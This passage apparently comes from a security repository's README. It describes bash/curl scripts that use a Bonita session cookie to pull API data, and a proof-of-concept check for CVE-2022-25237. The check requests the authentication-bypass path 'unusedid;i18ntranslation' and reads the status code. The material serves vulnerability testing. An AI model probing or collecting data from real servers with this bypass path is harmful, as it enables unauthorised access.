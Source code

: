   - For request, uses *IDs* from the previously collected data.
  
- **Technical Notes**:
  - Scripts use `bash` for scripts execution and  `curl` for HTTP requests and `jq` for JSON parsing.

  - A valid session cookie (`JSESSIONID`) is required, obtainable from a logged-in session.

  - Files are stored in a systematic manner within `./output`.

  - All scripts facilitate a limitation variable to retrieve only a restricted amount of example data, not the full amount.
  - `Configuration`:
    - The `_config.sh` file is loaded at runtime and contains the following variables:
      - `BN_SERVER_URL` - Bonita server URL. 
        - Example `https://mydomain.com/bonita` - *Subfolder* deployment.
        - Example `https://mydomain.com/` - *ROOT* deployment.
      - `BN_SESS_COOKIE` - Tomcat Session Cookie.
        - Example `JSESSIONID=370760A5A824D070B7898BC734A2F276`
      - `BN_RQ_LIMIT` - Maximum number of pages to retrieve. Default `1`.
    - `Functions`:
      - The `_functions.sh` file is loaded during runtime and contains *various functions to prevent code repetition and enhance readability*.

### 5.2. Bash Script for CVE-2022-25237 Test

The full script is located in the file `./poc/cve-2022-25237-status.sh`.  The following code snippet illustrates how straightforward it is to identify a system vulnerable to CVE-2022-25237 by exploiting weaknesses in the API endpoint handling. Specifically, it sends an HTTP GET request to the `API/system/session/unusedid;i18ntranslation` endpoint and analyzes the response for indicators of improper input validation, which could allow attackers to manipulate session data or bypass authentication, as described in the *CVE-2022-25237* vulnerability.

```bash
get_cve_2022_25237_status() {
    local HEADER
    HEADER=$(curl -s -I "${URL_API}/system/session/unusedid;i18ntranslation" | head -n1)
    case "${HEADER}" in
        *"HTTP/"*" 200"*) echo "Infected" ;;
        *"HTTP/"*" 401"*) echo "Not infected" ;;
        *) echo "Unknown status: ${HEADER}" ;;
    esac
}
```

#### How to use

To execute the script `cve-2022-25237-status.sh` from the `./poc` directory using a Bash command, you can use the following command:

```bash
bash ./cve-2022-25237-status.sh
```

#### Expected Results

- **Infected** - The system is susceptible to the *CVE-2022-25237* vulnerability.
- **Not infected** - The system is not affected by the *CVE-2022-25237* vulnerability.
- **Unknown Status** - An unexpected result occurred, indicating that the detection failed.
